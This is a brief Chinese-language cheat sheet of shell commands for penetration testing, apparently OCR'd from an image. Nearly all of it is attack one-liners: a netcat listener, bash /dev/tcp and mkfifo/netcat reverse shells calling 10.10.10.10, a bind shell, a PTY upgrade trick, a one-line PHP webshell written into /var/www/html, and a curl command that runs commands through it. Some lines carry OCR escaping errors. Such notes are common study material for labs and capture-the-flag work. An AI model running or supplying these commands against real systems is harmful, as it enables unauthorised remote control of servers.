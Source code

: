 # Shell 使用小记

-  启动监听

```
    nc -lvnp 2348
```

-  从远程服务器发送反弹 Shell

```
    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

-  从远程服务器发送另一个反弹 Shell

```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.10.10 1234 >/tmp/f
```

-  在远程服务器上启动绑定 Shell

```
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/bash -i2>&1\|nc -lvnp 1234 >/tmp/f
```

-  连接到在远程服务器上启动的绑定 Shell

```
    nc 10.10.10.10 1234
```

-  升级 Shell 环境

```
    python -c 'import pty; pty.spawn("/bin/bash")'
    
    ctrl+z
    stty raw -echo
    fg
    连续按enter两次
```

-  创建一个 webshell php 文件

```
    echo "<?php system(\$_GET['cmd']);?>" >/var/www/html/shell.php
```

-  在上传的 webshell 上执行命令
- 
```
    curl http://SERVER_IP:PORT/shell.php?cmd=id
```